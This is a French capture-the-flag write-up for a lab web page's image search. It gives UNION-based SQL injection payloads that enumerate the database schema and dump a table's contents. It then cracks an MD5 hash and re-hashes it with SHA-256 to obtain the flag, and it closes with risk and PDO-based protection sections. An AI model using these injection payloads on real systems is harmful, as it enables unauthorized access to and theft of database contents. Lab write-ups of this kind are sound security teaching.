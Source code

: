 # SEARCH IMAGE PAGE

## CIBLE: http://10.12.1.129/?page=searchimg

### PRÉ REQUIS

Aucun.

### INJECTIONS SQL

La commande:
`1=1 UNION SELECT table_schema, table_name FROM information_schema.tables`<br>
permet d'apprendre que dans la base de données `Member_images` se trouve une table unique: `list_images`.

La commande:
`1=1 UNION SELECT table_name, column_name FROM information_schema.columns`<br>
permet d'apprendre que dans la table "list_images" se trouvent les colonnes suivantes:

- id
- url
- title
- comment

Il est donc possible de vérifier le contenu de toutes ces tables.<br>
voici la partie intéressante de la commande:
`1=1 UNION SELECT comment, title FROM list_images`.
```
Hack me ?
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

### DECRYPT FILE

On peut décrypter le mot de passe grâce au site [md5 decrypt](https://md5decrypt.net/), qui donne: `albatroz`.<br>
On peut crypter ce mot de passe en sha256 grâce au site [md5 decrypt (sha256)](https://md5decrypt.net/Sha256/#answer).<br>
On obtient donc le flag: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`.

## RISQUE

L'accès aux bases SQL permet l'obtention de toutes les données qu'elles contiennent.<br>
Ici, nous avons seulement récupéré un commentaire, mais souvent les mots de passe ainsi que de nombreuses données d'utilisateur sont conservées dans ces bases de données.<br>
C'est par exemple le cas dans la base de données `Member_Brute_Force`.

## PROTECTION

Les injections SQL sont très dangeureuses. Heureusement, il est facile de s'en protéger.<br>
Par exemple avec la fonction PDO (en php), qui va formater la requête avant d'ajouter les paramètres et vérifier le formatage final de la requête avant de la soumettre à la base de données.
